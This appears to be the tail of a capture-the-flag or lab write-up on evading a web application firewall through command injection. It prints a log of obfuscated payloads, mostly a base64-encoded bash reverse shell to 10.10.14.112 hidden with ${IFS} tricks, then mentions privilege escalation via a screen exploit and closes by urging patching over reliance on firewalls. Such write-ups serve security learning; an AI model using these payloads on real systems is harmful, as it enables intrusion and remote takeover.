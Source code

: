 ```bash
;$(S=${IFS};P=YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMTIvMTIzNCAwPiYxCg==;D=-d;B=bash;echo${IFS}$P|base64$S$D|$B)  Bypassed
$(S=${IFS};P=YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMTIvMTIzNCAwPiYxCg==;D=-d;B=bash;echo${IFS}$P|base64$S$D|$B  Bypassed
$(S=${IFS};I=10.10.14.112;P=1234;N=netcat;$N$S$I$S$P;yes)  Bypassed
a  Bypassed
whoami  Bypassed
$(S=${IFS};P=YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMTIvMTIzNCAwPiYxCg==;D=-d;B=bash;echo${IFS}$P|base64$S$D|$B  Bypassed
====> Spawned a Shell!!
$(S=${IFS};P=YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMTIvMTIzNCAwPiYxCg==;D=-d;B=bash;echo${IFS}$P|base64$S$D|$B)  Bypassed
$(S=${IFS};P=YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMTIvMTIzNCAwPiYxCg==;D=-d;B=bash;echo${IFS}$P|base64$S$D|$B)  Bypassed
$(S=${IFS};P=YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMTIvMTIzNCAwPiYxCg==;D=-d;B=bash;echo${IFS}$P|base64$S$D|$B)  Bypassed
$(S=${IFS};P=YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMTIvMTIzNCAwPiYxCg==;D=-d;B=bash;echo${IFS}$P|base64$S$D|$B)  Bypassed
$(S=${IFS};P=YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMTIvMTIzNCAwPiYxCg==;D=-d;B=bash;echo${IFS}$P|base64$S$D|$B)  Bypassed
$(S=${IFS};P=YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMTIvMTIzNCAwPiYxCg==;D=-d;B=bash;echo${IFS}$P|base64$S$D|$B)  Bypassed
```

As you can see, the best payload was base64 encoding a bash reverse shell, and using variables to store every part of the command, and using the bash ${IFS} variable that outputs a space character, thanks to this [article about IFS](https://bash.cyberciti.biz/guide/$IFS) 

Its may be not the best payload, but its working, I'm not complaining!

From there we get a shell as www-data, after some enumeration we find an outdated screen binary, the [exploit](https://github.com/XiphosResearch/exploits/tree/master/screen2root) gives insta root.

# Conclusion

Thanks @askar for your article, learned alot. WAF bypassing was fun, had huge dopamine rush when the shell popped.

Patch your web apps, dont relay on WAFS to protect you from vulnerabilities, WAF is not a complete security feature, its just complementary, it slows down potential attacks and notify you at best.
